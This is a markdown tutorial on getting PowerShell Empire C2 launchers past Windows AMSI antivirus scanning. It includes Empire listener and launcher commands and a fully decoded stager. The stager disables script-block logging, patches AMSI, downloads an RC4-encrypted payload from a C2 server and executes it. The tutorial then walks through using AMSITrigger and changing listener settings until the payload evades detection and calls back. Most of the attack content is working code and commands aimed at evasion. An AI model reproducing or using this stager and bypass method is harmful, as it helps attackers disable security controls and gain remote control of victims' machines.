








# Empire
Powershell empire is a solid Windows C2 post exploitation framework developed [here](https://github.com/EmpireProject/). Though discotinuned, it still has community support and is very mature and is worth investigating AV bypasses. Most of the work document here was worked out from the blog post [here](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/).
# Empire Walk Through
Empire is shipped with kali Linux and can be launched with `powershell-empire`. In the UI, the first steps to getting an agent running is to start a listener. For these tests, an HTTP listener was used. After the listener has been started, a launcher or stager can be used to drop the payload on a victim machine. For this we will look at at launchers.
1. Setup the Listener
```bash
powershell-empire
uselistener http
set Name test
execute
```
2. Generate the Launcher Using Empire Defaults
```bash
back
listeners
launcher powershell test
```
This will generate a powershell one-liner to drop on the victim machine. Discussed in [amsi basics](basic-bypass.md#execution-methods), The methods in which powershell is being invoked will likely be flagged by AMSI or some other AV vendor as suspicious behavior. However, we will still run it to see how it fairs. Note, in this example I removed that `-w 1` because it hides the window which would prevent us from seeing the result without looking through log files.
```powershell
powershell -noP -sta -enc $BASE_64_PAYLOAD
```

As discussed in the [basic bypasses](basic-bypass.md), there are likely regex matches occuring on AMSI sensitive keywords. The base64 encoded payload can be decoded to see what in powershell is actually happening.
## The Empire Payload
The base64 decoded payload is below. It was written as a one-liner, but has been reworked for readability. I've also added comments into what the key sections do. Each section corresponds to code sections in empire which will be called out as well. The script is assembled in `lib/listeners/http.py:348`.
```powershell
# Check powershell version, if > 3, do additional things like amsi bypass
IF($PSVErsiOnTaBlE.PSVERsIon.MAjOR -gE 3){

    #
    # Step 1 - Disable logging
    # lib/common/bypasses.py:5
    #   def scriptBlockLogBypass
    #
    $AcE6=[REf].ASSEmblY.GETTYPE('System.Management.Automation.Utils')."GeTFie`LD"('cachedGroupPolicySettings','N'+'onPublic,Static');
    IF($acE6){
        $4C0d=$AcE6.GEtVAluE($nuLL);
        IF($4c0D['ScriptB'+'lockLogging']){
            $4c0D['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
            $4C0d['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
        }
    $VaL=[CollEctions.GeNeRic.DICtiONarY[strInG,SYstem.ObjeCT]]::New();
    $vAL.ADd('EnableScriptB'+'lockLogging',0);
    $VAL.Add('EnableScriptBlockInvocationLogging',0);
    $4C0D['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$vaL
    }Else{
        [SCrIptBLOcK]."GETFie`Ld"('signatures','N'+'onPublic,Static').SEtVaLuE($NUll,(New-ObJECT CoLlECTIoNs.GEneRIc.HASHSet[STRing]))
    }

    #
    # Step 2 - Disable AMSI
    # lib/common/bypass.py:34 
    #   def AMSIBypass()
    #
    [Ref].Assembly.GetType($([SysTeM.NEt.WEbUTiliTy]::HTMlDecoDE('&#83;&#121;&#115;&#116;&#101;&#109;&#46;&#77;&#97;&#110;&#97;&#103;&#101;&#109;&#101;&#110;&#116;&#46;&#65;&#117;&#116;&#111;&#109;&#97;&#116;&#105;&#111;&#110;&#46;&#65;&#109;&#115;&#105;&#85;&#116;&#105;&#108;&#115;'))).GetField(''+$([systEm.NET.WEbUTiLiTY]::HtMlDecoDE('&#97;&#109;&#115;&#105;'))+'InitFailed','NonPublic,Static').SetValue($null,$true);
};

#
# HTTP C2 client setup
#   lib/listeners/http.py:371
#
[SysteM.NeT.SeRViCePoiNTMAnaGer]::ExPeCT100CONTinUe=0;$097C=New-ObJECt SysTEm.NET.WEbClIEnt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([TEXT.EncOdIng]::UnIcoDe.GeTStRiNG([ConverT]::FrOMBaSe64StrING('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AOQAxAC4AMQAyADkAOgA0ADQANAAzAA==')));
$t='/news.php';$097C.HEADerS.ADd('User-Agent',$u);
$097c.PrOxY=[SYstEm.Net.WEbReQuEST]::DEfauLTWeBPrOXY;
$097C.PrOxy.CREDentIAls = [SySTEm.NET.CReDEntIaLCACHE]::DEFAUlTNETwORkCReDENtIAls;
$Script:Proxy = $097c.Proxy;$K=[SYsTEM.TEXT.EnCodinG]::ASCII.GEtBYteS('DPdT3G.L:yr?b@xih6gY4snC[l2kKp)+');\

#
# RC4 Encryption of the stager
#   lib/lib/listeners/http.py:430
#
$R={
    $D,$K=$ARGs;$S=0..255;0..255|%{
        $J=($J+$S[$_]+$K[$_%$K.COUnT])%256;
        $S[$_],$S[$J]=$S[$J],$S[$_]
    };
    $D|%{
        $I=($I+1)%256;
        $H=($H+$S[$I])%256;
        $S[$I],$S[$H]=$S[$H],$S[$I];$_-BxOr$S[($S[$I]+$S[$H])%256]
    }
};
$097c.HeAdeRS.ADD("Cookie","zVxMUgIjKb=5bNhr+SgKlRi+SbRxOFVBJr0jG8=");
$DaTa=$097C.DoWNLOADDAtA($sEr+$t);
$Iv=$Data[0..3];
$DatA=$DATA[4..$data.LENGtH];
-JOIN[Char[]](& $R $dATA ($IV+$K))|IEX
```
Looking at the above, we can now begin to understand what is going on in this script. What we dont know however, is what section is flagged by AMSI. We know that AMSI will use regexs to detect supisicous violations line by line. So we could manually run each line to see which one gets flagged in the above script. On simple way to do that is to do a search and replace on `;` with a `\r\n` to get a line by line representation (vim: `:%s/;/\n'/g`). However, there is a Windows tool which uses AMSI's interface to run the script in such a nature and return the encoded content which gets flagged. [AMSITrigger](https://github.com/RythmStick/AMSITrigger/tree/master/AMSITrigger) takes in the encoded content as a local file or as a gist. The executables can be downloaded from the releases section (no need to build the project).
```powershell
C:\Users\nedry\Downloads>.\AmsiTrigger_x64.exe -i empire.ps1
[+] "XQA6ADoARgBSAE8ATQBCAEEAcwBFADYANABTAHQAcgBpAG4ARwAoACcAYQBBAEIAMABBAEgAUQBBAGMAQQBBADYAQQBDADgAQQBMAHcAQQB4AEEARABrAEEATQBnAEEAdQBBAEQARQBBAE4AZwBBADQAQQBDADQAQQBPAFEAQQB4AEEAQwA0AEEATQBRAEEAeQBBAEQAawBBAE8AZwBBADAAQQBEAFEAQQBOAEEAQQB6AEEAQQA9AD0AJwApACkAKQA7ACQAdAA9ACcALwBuAGUAdwBzAC4AcABoAHAAJwA7ACQAMAA5ADcAYwAuAEgAZQBhAEQARQByAHMALgBBAEQAZAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkADAAOQA3AGMALgBQAFIAbwBYAHkAPQBbAFMAWQBzAFQAZQBtAC4ATgBlAHQALgBXAEUAYgBSAEUAcQBVAEUAUwBUAF0AOgA6AEQAZQBGAGEAdQBsAHQAVwBlAGIAUAByAG8AWABZADsAJAAwADkANwBjAC4AUAByAG8AWAB5AC4AQwBSAGUAZABFAE4AdABpAEEATABTACAAPQAgAFsAUwBZAHMAVABFAE0ALgBOAEUAdAAuAEMAUgBlAEQARQBuAFQASQBBAEwAQwBBAEMASABFAF0AOgA6AEQARQBGAGEAVQBMAFQATgBFAHQAdwBPAFIASwBDAFIARQBEAEUATgBUAEkAYQBsAHMAOwAkAFMAYwByAGkAcAB0ADoAUAByAG8AeAB5ACAAPQAgACQAMAA5ADcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AHMAVABlAE0ALgBUAGUAeAB0AC4ARQBOAGMATwBEAEkAbgBnAF0AOgA6AEEAUwBDAEkASQAuAEcAZQBUAEIAeQBUAGUAcwAoACcARABQAGQAVAAzAEcALgBMADoAeQByAD8AYgBAAHgAaQBoADYAZwBZADQAcwBuAEMAWwBsADIAawBLAHAAKQArACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAFIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAHUATgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAeABPAFIAJABTAFsAKAAk"
C:\Users\nedry\Downloads>
```

The result above indicates the section of the script which is causing issues with AMSI. This tool can and will return multiple sections as it breaks down the scripts if those trigger the AMSI interface. In this case there were only one. As we will see later, this above trigger is actually not for anything related to disabling AMSI. This is often times not the case, so hypothetically, if this triggered on the infamous `AmsiUtils` and `amsiInitFailed` strings, they can be obfuscated either manually (decode the script, add the modificaitons re-encode in `UTF-16LE`) or by extending the Empire bypasses. The obfuscation can be base64 and hex encoding or encryption which was discussed in [basic amsi bypasses](basic-bypass.md). To extend the Empire bypasses, code performing these bypasses can be added to `lib/common/bypasses.py:34` in function `AMSIBypass`. To investigate this trigger, just base64 decode the output and see the script blocks which trigger. Its recommened to do this decode on kali because it will convert from UTF-16LE to UTf-8 which makes it much easier to read (no spaces after every character).
```bash
root@kali:/tmp# echo -n "XQA6ADoARgBSAE8ATQBCAEEAcwBFADYANABTAHQAcgBpAG4ARwAoACcAYQBBAEIAMABBAEgAUQBBAGMAQQBBADYAQQBDADgAQQBMAHcAQQB4AEEARABrAEEATQBnAEEAdQBBAEQARQBBAE4AZwBBADQAQQBDADQAQQBPAFEAQQB4AEEAQwA0AEEATQBRAEEAeQBBAEQAawBBAE8AZwBBADAAQQBEAFEAQQBOAEEAQQB6AEEAQQA9AD0AJwApACkAKQA7ACQAdAA9ACcALwBuAGUAdwBzAC4AcABoAHAAJwA7ACQAMAA5ADcAYwAuAEgAZQBhAEQARQByAHMALgBBAEQAZAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkADAAOQA3AGMALgBQAFIAbwBYAHkAPQBbAFMAWQBzAFQAZQBtAC4ATgBlAHQALgBXAEUAYgBSAEUAcQBVAEUAUwBUAF0AOgA6AEQAZQBGAGEAdQBsAHQAVwBlAGIAUAByAG8AWABZADsAJAAwADkANwBjAC4AUAByAG8AWAB5AC4AQwBSAGUAZABFAE4AdABpAEEATABTACAAPQAgAFsAUwBZAHMAVABFAE0ALgBOAEUAdAAuAEMAUgBlAEQARQBuAFQASQBBAEwAQwBBAEMASABFAF0AOgA6AEQARQBGAGEAVQBMAFQATgBFAHQAdwBPAFIASwBDAFIARQBEAEUATgBUAEkAYQBsAHMAOwAkAFMAYwByAGkAcAB0ADoAUAByAG8AeAB5ACAAPQAgACQAMAA5ADcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AHMAVABlAE0ALgBUAGUAeAB0AC4ARQBOAGMATwBEAEkAbgBnAF0AOgA6AEEAUwBDAEkASQAuAEcAZQBUAEIAeQBUAGUAcwAoACcARABQAGQAVAAzAEcALgBMADoAeQByAD8AYgBAAHgAaQBoADYAZwBZADQAcwBuAEMAWwBsADIAawBLAHAAKQArACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAFIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAHUATgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAeABPAFIAJABTAFsAKAA"  | base64 -d | tr \; '\n'
base64: invalid input
]::FROMBAsE64StrinG('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AOQAxAC4AMQAyADkAOgA0ADQANAAzAA==')))
$t='/news.php'
$097c.HeaDErs.ADd('User-Agent',$u)
$097c.PRoXy=[SYsTem.Net.WEbREqUEST]::DeFaultWebProXY
$097c.ProXy.CRedENtiALS = [SYsTEM.NEt.CReDEnTIALCACHE]::DEFaULTNEtwORKCREDENTIals
$Script:Proxy = $097c.Proxy
$K=[SysTeM.Text.ENcODIng]::ASCII.GeTByTes('DPdT3G.L:yr?b@xih6gY4snC[l2kKp)+')
$R={$D,$K=$ARGs
$S=0..255
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256
$S[$_],$S[$J]=$S[$J],$S[$_]}
$D|%{$I=($I+1)%256
$H=($H+$S[$I])%256
$S[$I],$S[$H]=$S[$H],$S[$I]
$_-bxOR$S[(root@kali:/tmp# 
```

Reformatting to make it easier (search replace `;` with `\n`)
```powershell
]::FROMBAsE64StrinG('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AOQAxAC4AMQAyADkAOgA0ADQANAAzAA==')))
$t='/news.php'
$097c.HeaDErs.ADd('User-Agent',$u)
$097c.PRoXy=[SYsTem.Net.WEbREqUEST]::DeFaultWebProXY
$097c.ProXy.CRedENtiALS = [SYsTEM.NEt.CReDEnTIALCACHE]::DEFaULTNEtwORKCREDENTIals
$Script:Proxy = $097c.Proxy
$K=[SysTeM.Text.ENcODIng]::ASCII.GeTByTes('DPdT3G.L:yr?b@xih6gY4snC[l2kKp)+')
$R={$D,$K=$ARGs
$S=0..255
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256
$S[$_],$S[$J]=$S[$J],$S[$_]}
$D|%{$I=($I+1)%256
$H=($H+$S[$I])%256
$S[$I],$S[$H]=$S[$H],$S[$I]
$_-bxOR$S[(
```
In the above section, there is very little which is user controllable input which AMSI would be able to flag on. The candidates are:
* `FROMBAsE64StrinG('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AOQAxAC4AMQAyADkAOgA0ADQANAAzAA==')`
* `$t='/news.php'`
* `$097c.HeaDErs.ADd('User-Agent',$u)`
Looking at the first string, decodng it is discovered to the the IP address of the Empire C2 server. This can't be the issue because it would imply ASMI is blacklisting Class C private address space.

The next two are easy to read strings, the endpoint to the connect to for the C2 server and the User-Agent the client would use. Looking at the Empire listener settings, there are two parameters which can be changed. Highlighted in red are those which we can and will change to attempt the bypass. The launcher, we will change to just be `-enc` since invoking a powershell script in that fashion is always flagged now.

A user agent can be grabbed from any legit browser. Same with the URL. Change the paremters with the following commands
```
set Launcher powershell -enc
set UserAgent Mozilla/5.0 (Windows NT 10.0;Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
set DefaultProfile /en/p/LMOBPH11NVVN?searchCategory=c9|Mozilla/5.0 (Windows NT 10.0;Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
info
execute
back
listeners
launcher powershell army
```
Now, run this new encoded payload through AMSITrigger.

As we can see, we now have a successfull bypass of AMSI. At this point, we should be able to run the payload and receive a callback on the empire console. **Note** Make sure when testing and executing, always use a new / clean powershell session incase AMSI was accidentaly disabled during the testing process. I've found many false positives this way.

Huzza, received a connection back to the Empire C2 server.

